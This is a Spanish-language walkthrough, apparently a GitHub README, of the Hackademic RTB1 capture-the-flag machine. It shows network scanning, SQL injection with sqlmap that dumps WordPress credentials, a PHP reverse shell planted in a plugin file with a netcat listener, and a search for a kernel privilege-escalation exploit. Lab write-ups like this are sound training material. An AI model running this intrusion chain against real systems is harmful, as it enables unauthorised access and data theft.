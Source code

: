 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
![6](https://user-images.githubusercontent.com/75953873/171922959-d02ba87f-22b8-4770-b0dc-9c74c82eee21.png)

Usuario de WordPress: `GeorgeMiller`

Contraseña: `q1w2e3`

Acceder al panel de login de WordPress:
```
http://192.168.1.5/Hackademic_RTB1/wp-login.php
```
![7](https://user-images.githubusercontent.com/75953873/171924583-6a77c97a-d61c-4d81-a199-39077d868d4b.png)

- *Paso 4:* Subir código PHP y obtener una reverse shell. 

-> Manage -> Files

![8](https://user-images.githubusercontent.com/75953873/171925393-d911ddcf-cf5a-4670-8143-4026d0c70424.png)

Copiar código PHP de la siguiente ruta:
```
cat /usr/share/webshells/php/php-reverse-shell.php
```
![9](https://user-images.githubusercontent.com/75953873/171925910-7d2cc0de-93a1-4bc8-aeaf-dad026c76a9c.png)

Pegan el código en hello.php y cambian la línea de `$ip` por su IP local, luego guardan los cambios "Update File":

![10](https://user-images.githubusercontent.com/75953873/171926310-94b22d02-b809-4029-a72f-d90b1634fe8d.png)

Abren una nueva terminal y ejecutan Netcat para que escuche las conexiones por el puerto 1234. 
```
nc -lvp 1234
```

Posteriormente recargan la siguiente URL:
```
http://192.168.1.5/Hackademic_RTB1/wp-content/plugins/hello.php
```
![11](https://user-images.githubusercontent.com/75953873/171927713-64734806-0fc2-41d6-8b17-aff9e45f4b35.png)

- *Paso 5:* Identificar versión del Kernel y escalar privilegios. 

![12](https://user-images.githubusercontent.com/75953873/171928596-5a971c00-0c42-4d48-bf3c-93a776150472.png)

Localizar el exploit con searchsploit:
```
searchsploit Linux Kernel 2.6.3 RDS Local Privilege Escalation
```
![13](https://user-images.githubusercontent.com/75953873/171930886-0c5950e1-7c71-4a88-9aec-0b2fd90a1fa4.png)

